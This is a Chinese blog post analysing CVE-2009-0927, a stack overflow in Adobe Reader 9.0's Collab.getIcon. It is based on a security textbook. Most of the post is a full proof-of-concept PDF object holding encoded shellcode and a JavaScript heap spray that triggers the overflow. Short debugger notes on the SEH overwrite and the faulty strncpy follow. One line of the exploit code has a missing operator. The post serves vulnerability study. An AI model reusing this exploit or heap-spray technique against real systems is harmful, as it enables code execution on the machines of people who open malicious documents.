


# CVE-2009-0927 分析 - Harmonica11 - 博客园

> 原文：[`www.cnblogs.com/harmonica11/p/14225877.html`](https://www.cnblogs.com/harmonica11/p/14225877.html)

----------本文思路完全来自《0day 安全：软件漏洞分析技术》第三十章----------

```
实验环境
操作系统：Windows XP sp3
实验机器：VMware 15.5 Adobe Reader 版本：9.0 中文版
```

POC

```
7 0 obj <<
 /Type /Action /S /JavaScript /JS 
( var shellcode = unescape("%u68fc%u0a6a%u1e38%u6368%ud189%u684f%u7432%u0c91%uf48b%u7e8d%u33f4%ub7db%u2b04%u66e3%u33bb%u5332%u7568%u6573%u5472%ud233%u8b64%u305a%u4b8b%u8b0c%u1c49%u098b%u698b%uad08%u6a3d%u380a%u751e%u9505%u57ff%u95f8%u8b60%u3c45%u4c8b%u7805%ucd03%u598b%u0320%u33dd%u47ff%u348b%u03bb%u99f5%ube0f%u3a06%u74c4%uc108%u07ca%ud003%ueb46%u3bf1%u2454%u751c%u8be4%u2459%udd03%u8b66%u7b3c%u598b%u031c%u03dd%ubb2c%u5f95%u57ab%u3d61%u0a6a%u1e38%ua975%udb33%u6853%u6577%u7473%u6668%u6961%u8b6c%u53c4%u5050%uff53%ufc57%uff53%uf857"); var nops = unescape("%u9090%u9090"); while (nops.length < 0x100000) 
   nops += nops;
nops=nops.substring(0,0x100000/2-32/2-4/2-2/2shellcode.length);
nops=nops+shellcode; var memory = new Array(); for (var i=0;i<200;i++) 
　　memory[i] += nops; var str = unescape("%0c%0c%0c%0c"); while(str.length < 0x6000)
　　str += str;
app.doc.Collab.getIcon(str+'aaaaD.a');
) >> endobj
```

使用 ollydbg 运行 Adobe Reader，打开 POC，会有几次异常在 Kernel32，忽略异常，直到触发异常在 msvcr80 模块


此时的 SEH 已经被覆盖了



此时的栈



到 2210FE27 看看


在 strncpy 时错误的设置了字符数，导致溢出